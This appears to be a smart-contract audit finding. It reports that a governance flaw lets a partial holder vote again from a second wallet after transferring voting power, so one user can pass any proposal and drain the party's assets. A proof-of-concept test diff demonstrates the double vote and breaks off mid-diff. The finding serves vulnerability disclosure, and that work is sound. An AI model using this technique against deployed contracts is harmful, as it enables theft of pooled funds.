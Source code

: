The consequences of this are very severe. Any user (no matter how small his voting power is) can propose and pass arbitrary proposals animously and therefore steal all assets (including the precious tokens) out of the party.

### Proof Of Concept

This diff shows how a user with a voting power of 50/100 gets a voting power of 100/100 by transferring the NFT to a second wallet that he owns and voting from that one:

```diff
--- a/sol-tests/party/PartyGovernanceUnit.t.sol
+++ b/sol-tests/party/PartyGovernanceUnit.t.sol
@@ -762,6 +762,7 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         TestablePartyGovernance gov =
             _createGovernance(100e18, preciousTokens, preciousTokenIds);
         address undelegatedVoter = _randomAddress();
+        address recipient = _randomAddress();
         // undelegatedVoter has 50/100 intrinsic VP (delegated to no one/self)
         gov.rawAdjustVotingPower(undelegatedVoter, 50e18, address(0));

@@ -772,38 +773,13 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         // Undelegated voter submits proposal.
         vm.prank(undelegatedVoter);
         assertEq(gov.propose(proposal, 0), proposalId);
-
-        // Try to execute proposal (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
-
-        // Skip past execution delay.
-        skip(defaultGovernanceOpts.executionDelay);
-        // Try again (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
+        (, PartyGovernance.ProposalStateValues memory valuesPrev) = gov.getProposalStateInfo(proposalId);
+        assertEq(valuesPrev.votes, 50e18);
+        gov.transferVotingPower(undelegatedVoter, recipient, 50e18); //Simulate NFT transfer
+        vm.prank(recipient);
+        gov.accept(proposalId, 0);
+        (, PartyGovernance.ProposalStateValues memory valuesAfter) = gov.getProposalStateInfo(proposalId);
```